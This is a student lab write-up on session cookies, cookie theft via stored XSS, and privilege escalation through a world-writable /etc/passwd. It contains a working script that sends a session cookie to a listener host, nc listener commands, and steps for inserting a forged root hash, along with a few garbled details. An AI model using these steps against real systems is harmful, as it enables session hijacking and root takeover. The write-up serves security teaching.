




Author: Mauricio I. Reyes Villanueva\
Due: November 20, 2024

## 1. Session Cookies Working as Intended:
---

a. After logging in as Alice there were two new cookies.

The first cookie was a "session" cookie which denotes my login session, and the second was a "remember_token" cookie which is inserted if the user selects "remember me" when logging in.

b. A session cookie, as the name denotes, is a cookie that is dedicated to storing a user's session on a website. A session cookies contains a session identifer, which can help improve load times, and contain no expirtation date but expire (are deleted) when the user closes the web browser.

c. After copying Alice's cookie into the new browser window (I used firefox), and reloading it, it shows Alice as logged in via the session cookie.

d. Diagram that explains clearly how you normally go from not logged-in to logged-in, and also how you stay logged-in when you navigate to other pages on the same site.



e. Session cookies can allow an attacker to attempt to perform session hijacking. Such as stealing a session cookie and using it to impersonate the user associated with that session cookie.

## 2. Stealing Session Cookies
---

a. The post that worked for me is as follows:



Where the following script:

```
<script>
document.cookie.split(';')
.forEach(function(e) {
    let parts = e.split('=');
    let name = parts[0].trim();
    if (name === 'session') {
        fetch('http://192.168.64.2:80/?s=' + parts[1], {
            method:'get'
        })
        .catch(function(error) {});
    }
});
</script>
```

Does as follows:

1. Gets all the cookies in the browser document, delimited by semicolons\
2. Iterates over each of the cookies and parses though it to get the name to which it checks to see if its a session cookie\
3. If the cookie is a session cookie, then it sends a GET request containing the cookie to http://192.168.64.4.2 which is listening on port 80
4. If for whatever reason there is an error then a catch is performed & the error is ignored

b. In order to prepare to receive Alice's information I simply set up a server that listened on port 80 of my kali machine, as follows:

```
nc -l -p 80
```

alternatively:

```
python3 -m http.server 80
```
c. Alice's information arrived as follows:



d. Once Eve has receieved Alice's session cookie she can use it to login to Alice's session either by copying the session cookie into the browser's application cookie storage, or by manually sending a GET request to the server with the cookie.


e. Eve sequence of events diagram:



f. HttpOnly is an additional flag that is set on a cookie (via the Set-Cookie header) that prevents cookies from being accessed via scripting languages, such as javascript. The point where the HttpOnly flag would prevent Eve's attack from working would be the following

```
...
    if (name === 'session') {
        fetch('http://192.168.64.2:80/?s=' + parts[1], {
            method:'get'
        })
        .catch(function(error) {});
    }
...
```

because the javascript would never get the httpOnly cookies, such as the session cookies, and would only see any cookies without this flag.

## 3. Privilege Escalation via a Misconfigured /etc/passwd file 

a. The Unix permissions on the files /etc/pass, and etc/shadow are as follows:


Where a dash represents no permission, the letter represents having that permission, and the index represents the permission type / group. As follows:

```
- File type: -
Owner permissions
- read:    r
- write:   w
- execute: x
Group permissions
- read:    r
- write:   w
- execute: x
Other permissions
- read:    r
- write:   w
- execute: x
```

b. The command I would use in order to make /etc/passwd globally writable would be as follows

```
sudo chmod a+w /etc/passwd
```

Where the command can be read as follows "as a SuperUserDo, ChangeMode, All+Writeable for /etc/passwd"

c. Now that this files permissions have been modified, the steps you'd need to take for an unprivileged user, such as kermit, to be able to to change the password for the "root" account are as follows:

1. Logout as "kali" and login as "kermit" using "su" as follows:

```
 In: su kermit
 In: Password: ****
```

2. Check /etc/passwd permissions as follows:

```
 In: ls -l /etc/passwd
Out: -rw-rw-rw- 1 root root 3278 Nov 19 11:23 /etc/passwd
```

2. Wow! We have write access now! What a shocker! Let's generate a password hash for the root user using openssl, as follows:

```
 In: openssl passwd -l
 In: Password: kermit
 In: Verify Password: kermit
Out: Verifying - Password
Out: $1$UN0rBP2h$04r4lRz21tqFI96dB./Fu0
```
3. Using a text editor (such as vim) replace the "x" (which indicates that the password is stored in /etc/shadow) in the following /etc/passwd user entry:

```
root:x:1000:1000:kali,,,:/home/kali:/usr/bin/zsh
```

with the new password hash that was generated via openssl. As follows:

```
root:$1$UN0rBP2h$04r4lRz21tqFI96dB./Fu0:1000:1000:kali,,,:/home/kali:/usr/bin/zsh
```

4. Login to root using the "kermit" password.

d. From here "kermit" the attacker became "root" and now has full access to do what attackers as super users do


## References:
- https://en.wikipedia.org/wiki/HTTP_cookie
- https://www.linode.com/docs/guides/modify-file-permissions-with-chmod/
- https://docs.openssl.org/1.1.1/man1/passwd/#name
- https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/